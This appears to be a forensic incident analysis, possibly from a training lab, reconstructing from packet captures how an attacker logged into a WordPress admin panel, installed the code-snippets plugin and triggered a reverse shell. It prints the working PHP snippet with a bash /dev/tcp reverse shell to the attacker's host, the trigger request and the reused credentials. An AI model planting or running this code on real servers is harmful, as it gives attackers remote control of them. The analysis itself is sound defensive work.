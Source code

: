 # CVE-2024-7420 (58.16.78.90 -> 192.168.100.101)

TCP flows confirm a potentially malicious action by an actor with admin privileges who installed the **code-snippets** plugin. Further analysis was conducted to verify exploitation of known vulnerabilities.

## When

| **Event**                     | **Timestamp** | **TCP Stream** | **Details**                                   |
|--------------------------------|---------------|----------------|-----------------------------------------------|
| Admin login                   | 22:45:15.45   | 458            | POST to /wp-login.php with admin:byebye       |
| Plugin installation           | 22:45:15.80   | 461            | Navigation and installation of code-snippets  |
| Malicious snippet upload      | 22:46:21.03   | 621            | POST with file fancy_rnd.json                 |
| Remote shell activation       | 22:47:09.60   | 730            | GET with rand=NTguMTYuNzguOTAvNDQz            |

## Who/Where

| **Role**         | **IP Address**         | **Port**        |
|-------------------|------------------------|-----------------|
| Attacker          | 58.16.78.90           | 51144, 51176, 54012, 44250 |
| Compromised server| 192.168.100.101       | 80 (srv-www)    |
| Reverse shell destination | 58.16.78.90    | 443             |

## What

1. The attacker logged in using the same credentials (admin:byebye) stolen in the previous db attack.

```sh
    POST /wp-login.php
    ...
    log=admin&pwd=byebye
```

2. Access and installation of the plugin through the WordPress dashboard.

```sh
    GET /wp-admin/plugins.php
    GET /wp-admin/plugin-install.php
    POST /wp-admin/admin-ajax.php HTTP/1.1
    slug=code-snippets&action=install-plugin&_ajax_nonce=aad5c50a4b&_fs_nonce=&username=&password=
    &connection_type=&public_key=&private_key=
```

3. Upload of the malicious PHP snippet.

    - The snippet contains code to invoke a reverse shell using a base64-decoded IP/port.

    ```php
    add_action('init', function() {
        if ( isset($_GET['rand']) ) {
            exec('/bin/bash -c "bash -i >& /dev/tcp/' . base64_decode($_GET['rand']) . ' 0>&1"');
        }
    });
    ```

4. Shell activation.

```sh
    GET /?rand=NTguMTYuNzguOTAvNDQz
```

 - echo "NTguMTYuNzguOTAvNDQz" | base64 -d 
 - 58.16.78.90/443
 - The WordPress server initiates an outbound connection to 58.16.78.90:443, establishing an interactive Bash shell.

## How

- The attacker exploited the admin credentials modified in the previous attack.
- The vulnerability [CVE-2024-7420](https://nvd.nist.gov/vuln/detail/CVE-2024-7420) was used.

## Why

- Gain full control over the web server.
- Exfiltrate sensitive corporate data.
- Potential installation of persistent backdoors.

**Wireshark filters used**

```sh
http.request.method == "POST" && http contains "login"
http.request.method == "POST" && http.request.uri contains "code-snippets"
http.request.uri contains "rand="
```